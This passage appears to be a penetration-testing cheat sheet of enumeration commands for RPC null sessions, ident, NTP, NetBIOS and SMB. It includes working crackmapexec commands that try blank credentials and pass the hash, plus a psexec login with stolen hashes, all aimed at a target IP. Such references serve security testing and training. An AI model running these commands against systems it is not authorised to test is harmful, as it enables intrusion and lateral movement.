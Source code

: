 **Null session**

```text
rpcclient -U "" -N $ip
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
```

### ident (113/tcp)

**Enumerate users services running as**

```text
ident-user-enum $ip 22 25 80 445
```

### NTP (123/udp)

```text
# Run ntp-info NSE script
sudo nmap -sU -p 123 --script ntp-info $ip
```

### NetBIOS-NS (137/udp)

**enum4linux**

```text
enum4linux -a -M -l -d $ip 2>&1 | tee "enum4linux.txt"
```

**nbtscan**

```text
nbtscan -rvh $ip 2>&1 | tee "nbtscan.txt"
```

### SMB (139/tcp, 445/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p 445 "--script=banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args=unsafe=1 -oN tcp_445_smb_nmap.txt $ip
```

**crackmapexec**
```text
# Enumerate
crackmapexec smb $ip

# Attempt blank credentials
crackmapexec smb $ip --shares -u '' -p ''

# Pass the hash
crackmapexec smb $ip -u administrator -H <HASH>
# Use psexec if valid
psexec.py <DOMAIN.LOCAL>/administrator@$ip -hashes <LM_HASH>:<NT_HASH>
```
